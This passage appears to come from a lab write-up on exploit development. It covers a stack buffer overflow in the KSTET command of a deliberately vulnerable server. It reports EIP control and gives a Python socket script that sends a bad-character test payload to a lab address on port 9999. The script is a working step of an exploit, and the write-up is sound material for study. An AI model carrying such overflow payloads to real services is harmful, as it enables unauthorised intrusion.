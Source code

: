 <img src="./res/kstet-1-overwrite.png">
</div>

So we could control EIP and redirect the code execution to the next point

## Finding bad characters

Lets pass bad characters on our ```buffer memory``` to see our data dump on that region,

```c
import socket, sys
# collection of badchars except \x00
badchars=(b"\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f"
b"\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
b"\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f"
b"\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f"
b"\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f"
b"\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf"
b"\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf"
b"\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff")
payload=b""
# passing badchars on buffer and EBP
payload+=badchars[0:70]
# to overwrite EIP
payload+=b"B"*4
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("192.168.116.140", 9999))
s.send((b"KSTET "+payload))
s.close()
sys.exit()
```
